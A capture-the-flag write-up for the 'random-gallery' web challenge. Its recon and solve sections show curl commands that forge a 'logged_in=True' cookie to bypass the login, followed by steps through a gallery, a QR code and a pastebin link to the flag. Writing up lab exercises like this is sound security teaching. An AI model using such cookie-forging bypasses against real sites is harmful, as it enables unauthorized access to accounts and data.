



# random-gallery


**Author:** `RaduTek`   
**Solve:** 62

---

## Description

just some photos?

---

## Recon

We can see just a simple web page with a login screen.

When we try to do a curl with some tests for login we get this reponse:

```bash
$ curl -i -X POST http://ctf.ac.upt.ro:9622/login   -H 'Content-Type: application/x-www-form-urlencoded'   --data 'username=test&password=wrong'

HTTP/1.1 200 OK
Server: Werkzeug/3.1.3 Python/3.11.13
Date: Tue, 16 Sep 2025 16:50:41 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 1107
Set-Cookie: logged_in=False; Path=/
Connection: close
```

Clearly the **logged_in=False** is a huge discovery.
Because by simply making a request with **logged_in=True** we could bypass the login entirely!

## Solve

```bash
$ curl -i -H 'Cookie: logged_in=True' http://ctf.ac.upt.ro:9622
HTTP/1.1 302 FOUND
Server: Werkzeug/3.1.3 Python/3.11.13
Date: Tue, 16 Sep 2025 16:53:23 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 203
Location: /gallery
Connection: close

<!doctype html>
<html lang=en>
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to the target URL: <a href="/gallery">/gallery</a>. If not, click the link.
```

That's exactly what we wanted, we can do this ourselves on the browser using a Cookie Editor plugin!




Then we are in !



Inside city -> haunts -> me 

We get a qr code


Scanning it


We get a pastebin link



There is our flag!

### Flag: ctf{1cd4daf060aee882653595cca4e719d48a3080cd1b76055812145da8a10b47e1}